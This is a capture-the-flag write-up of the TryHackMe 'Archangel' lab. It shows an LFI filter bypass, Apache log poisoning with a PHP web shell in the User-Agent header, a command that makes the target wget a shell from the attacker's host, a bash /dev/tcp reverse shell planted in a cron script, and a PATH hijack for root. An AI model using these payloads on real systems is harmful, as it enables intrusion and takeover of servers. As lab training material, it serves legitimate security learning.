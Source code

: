 ```bash
# PLATFORM          . THM
# CTF NAME          . Archangel
# DESCRIPTION       . Boot2root, Web exploitation, Privilege escalation, LFI
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/archangel
```

___

```bash
sudo nmap -sSVC -T5 -p- 10.10.134.131 -oN archangel
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f1d2c9d6ca40e4640506fedcf1cf38c (RSA)
|   256 637327c76104256a08707a36b2f2840d (ECDSA)
|_  256 b64ed29c3785d67653e8c4e0481cae6c (ED25519)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Wavefire
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- The website seems to be just an ordinary template. 
- `robots.txt` is not existing. 
- Fuzzing the website doesn't reveal anything interesting except the `/flags` directory which you better not look into :) 

- The only interesting thing we find here is the email on the webpage: `support@mafialive.thm`.

- Take note of the `mafialive.thm` domain.

- Let's add this to our `/etc/hosts` file so we can access it.

```
10.10.134.131	mafialive.thm
```

- If we go to `http://mafialive.thm`, we can find the first flag.

- `robots.txt` exists on this website and denies crawling for `/test.php`, so let's try it out.

- On `test.php`, we can find a simple button that is displaying `Control is an ilussion` when is pressed.

- However, take a look at the URL after you press the button: `?view=/var/www/html/development_testing/mrrobot.php`

- I wasted quite some time trying to bypass the filter with known payloads but I had no luck.

- However, I noticed that if we go to a known page `(eg: test.php)`, we're still not seeing anything. 

- This might be because the output is in base64 or not returned to the apache webserver at all

- To test it out, I used the `php://filter/convert.base64-encode/resource` filter as follows

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

- After saving the output to a file and decoding it, we find the following

```
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: thm{redacted}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>

</html>

```

- Alright, what matters is in this piece of code

```
if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{
```

- The first condition limits the path traversal by `../..` and the second one restricts us to a single location.

- We can use `.././..` instead to traverse directories. The payload should look like this

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../etc/passwd
```

- Now, I know I must poison this in some way to be able to execute arbitrary commands or to point to a remote file and transform LFI to RFI, but I had no idea how.

- After some research, I found [this](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/) article that explained how this vulnerability is working.

- So I fired up burp suite and intercepted the first request

```
GET /test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log HTTP/1.1
Host: mafialive.thm
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

- I've replaced `(Windows NT 10.0; Win64; x64)` in `User-Agent` line with my payload, `<?php system($_GET['cmd']); ?>`

- After this, I made another request to `http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../etc/passwd&cmd=echo "AOLEU"

- I wanted to see if that text will be shown in the output of the page, and it did. So our poisoning is working.

- The easiest thing now would be to get a reverse shell from our box, so let's do it.

- Make a request to ``http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../etc/passwd&cmd=wget http://ip:port/shell.php

```
GET /test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log&cmd=wget http://IP:80/shell.php HTTP/1.1
Host: mafialive.thm
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

- Forward the request in burp suite.

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.134.131 - - [11/Dec/2023 00:24:52] "GET /shell.php HTTP/1.1" 200 -
10.10.134.131 - - [11/Dec/2023 00:24:52] "GET /shell.php HTTP/1.1" 200 -
10.10.134.131 - - [11/Dec/2023 00:24:52] "GET /shell.php HTTP/1.1" 200 -
10.10.134.131 - - [11/Dec/2023 00:24:52] "GET /shell.php HTTP/1.1" 200 -
```

- As we can see, our file has been downloaded. Start the listener and head up to `http://mafialive.thm/shell.php`

- Once we're inside, we can find the `user.txt` flag in `/home/archangel`.

- Also, we have access to read from `/home/archangel/myfiles/passwordbackup`

```
www-data@ubuntu:/home/archangel$ cat myfiles/passwordbackup 
https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

- I'm not opening that :pain:

- However, I've used `find / -perm -222 -type d 2>/dev/null` as part of my usual routine to find privilege escalation vectors and I've noticed that I have write access to `/opt`

```
ls -la /opt/

drwxrwxrwx  3 root      root      4096 Dec 11 04:09 .
drwxr-xr-x 22 root      root      4096 Nov 16  2020 ..
drwxrwx---  2 archangel archangel 4096 Nov 20  2020 backupfiles
-rwxrwxrwx  1 archangel archangel   53 Dec 11 04:09 helloworld.sh
```

- We don't have access to `backupfiles` directory, but we can write to `helloworld.sh` script.

- This is getting executed as `archangel` under a cronjob.

```
# m h dom mon dow user	command
*/1 *   * * *   archangel /opt/helloworld.sh
```

- So I've replaced the content to the reverse shell below and started a new listner. 

```
#!/bin/bash
sh -i >& /dev/tcp/10.11.53.46/3133 0>&1
```

- Shortly after, we got a shell as user `archangel.` 

- The second flag is in `/home/archangel/secret/user2.txt`

- Here is a script called `backup` that's owned by `root:root` but to which we have execute permissions.

- Using `strings` against it reveals some of its functionality

```
cp /home/user/archangel/myfiles/* /opt/backupfiles
```

- I was stuck here for a while, but the CTF hint is `certain paths are dangerous`. 

- Not much help I got from this initially, but after some time I was thinking that, since this runs as root, try to change the `cp` command to a malicious one.

- I created a file called `cp` in `/home/archangel/secret` that contained `/bin/bash`. 
- Then, I made it executable by using `chmod +x cp` 

- Now, we need to add the current path to the $PATH variable.

```
export PATH=/home/archangel/secret:$PATH
```

- And run the backup binary: `./backup`

- The final flag is in `/root/root.txt`


